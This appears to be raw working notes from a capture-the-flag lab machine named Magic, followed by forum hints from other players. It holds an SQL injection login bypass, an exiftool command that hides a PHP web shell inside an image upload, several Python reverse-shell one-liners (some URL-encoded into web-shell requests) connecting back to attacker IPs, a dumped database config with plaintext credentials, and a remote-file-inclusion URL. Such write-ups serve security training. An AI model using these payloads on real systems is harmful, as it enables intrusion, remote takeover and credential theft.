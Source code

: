 nmap as always 

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


attempt some basic sqli at login

https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/

http://10.10.10.185/login.php

' or 1=1# for user
' or 1=1# for pass

https://www.exploit-db.com/exploits/29427


root@kali:~/Downloads# exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' test.jpg_original
https://github.com/xapax/security/blob/master/bypass_image_upload.md





python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.14.12%22%2C4321))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call(%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D)%3B%27

python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.15.1%22,4321));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27

http://10.10.10.185/images/uploads/myimage.php.jpg?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.15.92%22,4321));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27


http://10.10.10.185/images/uploads/middle.php.jpg?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.168%22,4789));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27


found user theseus


www-data@ubuntu:/var/www/Magic$ cat db.php5
cat db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

    private static $cont  = null;

    public function __construct() {
        die('Init function is not allowed');
    }

    public static function connect()
    {
        // One connection through whole application
        if ( null == self::$cont )
        {
            try
            {
                self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
            }
            catch(PDOException $e)
            {
                die($e->getMessage());
            }
        }
        return self::$cont;
    }

    public static function disconnect()
    {
        self::$cont = null;
    }

python3 -c 'import pty; pty.spawn("/bin/bash")'

does not work


su - theseus
Th3s3usW4sK1ng  



for root, I think that using anacron is my best move.
https://www.securifera.com/blog/2017/01/28/a-less-dirty-cow/








netstat -tulpn



    ROOTED!

    I love this kind of box and this one in particular make me learn something new! Here some hints:

    Foothold: do you know an image can hide a lot of information? Maybe you just need the right tool.
    User: just look around and you'll find the first juicy information, that information can be used only in one way so let's do it.
    Root: know how Linux prioritize commands execution is the key, then I suggest you to use some tools like pspy and strings to better understand what's happening.


    http://www.example.com/path/admin/list_members.php?_config[site_path]=http://www.example2.com

    http://10.10.10.185/path/admin/list_members.php?_config[site_path]=http://10.10.10.185


May 1 Report Spoiler

Finally Rooted.
This box is very much unique. I struggled for both User and Root but the knowledge I got was huge. Thanks to @FunkyMcBeef for helping/guiding me throughout the process of root

Initial foothold:
1.You know how to bypass login using basic things. (really a child's play)
2. You have to upload something to get the shell
3. Trick is not everything works. For me all the basic methods failed. But then I watched one youtube video and learned a new method to craft payload. Cat has some powerful magic I would say.

User:
1. Once you get shell, you know where to look first.
2. Extract something but you don't have access to the tools.
3. But there are other ways to do it. (really its in front of you)

Root:
OK this is not easy
1. linpeas will really give you something (please read it line by line. I didn't and that's why I struggled)
2. check what really happens in the background
3. exploit it

I am very much descriptive here, hope haven't spoiled anything
